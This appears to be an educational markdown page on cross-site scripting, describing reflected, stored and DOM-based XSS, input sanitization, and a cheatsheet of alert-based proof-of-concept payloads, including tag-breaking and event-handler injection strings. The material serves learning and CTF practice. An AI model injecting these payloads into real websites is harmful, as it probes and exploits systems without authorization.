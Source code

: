 # Cross-Site Scripting (XSS)

Cross-Site Scripting (XSS) is a security vulnerability in web applications that allows code to be injected into web pages viewed by users. It's a useful concept to understand for web security practice.

## Types of XSS

### Reflected XSS

This type of XSS occurs when an application includes user-supplied data from an HTTP request in its response without proper validation.

**Example:**
Imagine a search page that shows your search term.
`https://example.com/search?query=my-search-term`

If the site is not secure, a crafted link could include a script:
`https://example.com/search?query=<script>alert('XSS Proof of Concept')</script>`

When this link is visited, a simple alert box would appear, demonstrating the vulnerability.

### Stored XSS

Stored XSS happens when an application saves user input and later displays it to other users without sanitizing it.

**Example:**
A comments section on a blog. If a user can submit a comment containing a script, it gets stored on the server.

```html
<!-- A user's comment -->
<p>This is a helpful article.</p>
<script>alert('Stored XSS Proof of Concept');</script>
```
Anyone who views this comment would see an alert box, showing that the script was executed.

### DOM-based XSS

This vulnerability occurs within the page's Document Object Model (DOM). Client-side JavaScript takes data from an untrusted source and writes it into the DOM.

**Example:**
A page might use JavaScript to get a name from the URL and display it.
`var name = new URLSearchParams(window.location.search).get('name');`
`document.getElementById('welcome-message').innerHTML = "Hello, " + name;`

A crafted URL could execute a script:
`https://example.com/welcome?name=<img src=x onerror=alert('DOM XSS PoC')>`

The script runs when the `innerHTML` is updated, again triggering a simple alert.

## Common Payloads for Learning

These are simple payloads used to confirm if a vulnerability exists.
*   **Basic Alert:** `<script>alert('XSS')</script>`
*   **Image-based Alert:** `<img src=x onerror=alert('XSS')>`
*   **SVG-based Alert:** `<svg onload=alert('XSS')>`

## Understanding Input Sanitization

To prevent XSS, applications sanitize user input. In a CTF context, it's important to understand these defenses.
*   **Encoding:** Special characters are often encoded (e.g., `<` becomes `&lt;`).
*   **Tag Filtering:** Certain HTML tags like `<script>` may be removed by the application.
*   **Attribute Filtering:** Attributes like `onerror` or `onload` may be stripped from HTML tags.

Understanding how these sanitization methods work is key to learning about web security.

## Cheatsheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

- ```<script>alert('xss')</script>```
- ```<img src='x' onerror="alert('xss')">```
- ```<img src='x' onload="alert('xss')">```
- ```<body onload="alert('xss')"/>```
- ```<iframe src="javascript:alert('xss')">```
- ```javascript:alert(3)```
- ```';alert('xss');//```
- ```<bla onfocus="alert(2)" tabindex="1">spider</bla>```
- ```var message = `0 search results for '${alert(222)}'`;```

Escape html tags

```html
<img src="/resources/images/tracker.gif?searchTerms=UserInput">
```

If you see a tag where user input is being placed into the tag there a chance to escape out of the tag.
In the example below `UserInput` is being replaced with xss injection `"><script>alert(3)</script>//`

```html
<img src="/resources/images/tracker.gif?searchTerms="><script>alert(3)</script>//">
```